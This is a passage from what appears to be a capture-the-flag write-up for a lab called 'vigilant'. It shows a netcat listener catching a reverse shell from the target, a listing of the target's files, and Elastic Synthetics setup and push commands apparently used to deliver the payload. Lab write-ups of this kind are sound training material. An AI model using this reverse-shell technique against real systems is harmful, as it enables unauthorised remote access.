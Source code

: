 ![alt text](../assets/images/Screenshot_2024-07-19_00_14_29.png)

that was my way to use u may wanna use different ways.

    ➜  vigilant nc -nvlp 4444
    listening on [any] 4444 ...
    connect to [10.8.2.152] from (UNKNOWN) [10.10.216.70] 53440
    ls
    example.journey.ts
    node_modules
    package.json

and we got shell as succesfully.

## basic commands.

    sudo npm install -g @elastic/synthetics 
    npx @elastic/synthetics --ignore-https-errors init project-vigilant
    npx @elastic/synthetics push

![alt text](../assets/images/Screenshot_2024-07-19_00_40_01.png)
